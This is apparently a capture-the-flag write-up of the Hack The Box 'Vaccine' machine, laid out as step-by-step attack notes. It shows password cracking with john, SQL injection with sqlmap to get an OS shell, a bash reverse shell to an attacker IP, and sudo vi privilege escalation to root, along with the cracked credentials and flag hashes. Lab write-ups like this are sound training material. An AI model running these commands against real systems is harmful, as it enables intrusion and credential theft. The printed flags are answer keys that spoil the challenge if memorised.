 # [HTB] Vaccine


## recon

- [nmap scan](./nmap.log)
	- cmd: `nmap -sC -sV -A -o nmap.log <Target-IP>`
	- p21, p22 & p80 are open
	- on p21 anonymous ftp login allowed

- found `backup.zip` in ftp, it is password protected

- p80 hosts a website, `MegaCrop Login` page


## hacking

- cracked zip file password using __john the ripper__
	- `zip2john backup.zip > backup_pwd.hash`
	- `john backup_pwd.hash -wordlist=/usr/share/wordlists/rockyou.txt`
	- `john --show backup_pwd.hash`
	- password: `741852963`

- unzipped the file
	- found `index.php` & `style.css`
	- found website login creds, but pwd is in _MD5 format_ (in `index.php`)
		- `admin:2cb42f8734ea607eefed3b70af13bbd3`
	- _password_:`qwerty789` ([crackstation](https://crackstation.net/))

- _logged in_ on `<IP>`'s website
	- redirected to `/dashboard.php`
	- found param `/dashboard.php?search=`

- using __sqlmap__
	- cmd: `sqlmap -u "http://<Target-IP>/dashboard.php?search=" --cookie="PHPSESSID=5naq63b4fai8cobfeikbacjc21" --os-shell --batch`
	- _got a shell on system!_

- currently we are `postgres` user
	- getting reverse shell
		- `nc -lvnp 4444` (_attacker's machine_)
		- `bash -c "bash -i >& /dev/tcp/<Attacker-IP>/4444 0>&1"` (_os shell_)
		- _successfully got reverse shell!_
	- __enumerating system__
		- found _user_:`simon`
		- found `/var/lib/postgresql/user.txt` > `ec9b13ca4d6229cd5cc1e09980965bf7`

- __privesc__
	- found sensitive infomation in `/var/www/html/dashboard.php`
		- `$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");`
	- using these creds, access machine using __ssh__
	- `sudo -l` > `/bin/vi /etc/postgresql/11/main/pg_hba.conf`
	- getting root shell
		- `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
		- `:shell`

- currently we are `root` user
	- found `/root/root.txt` > `dd6e058e814260bc70e9bbdef2715849`







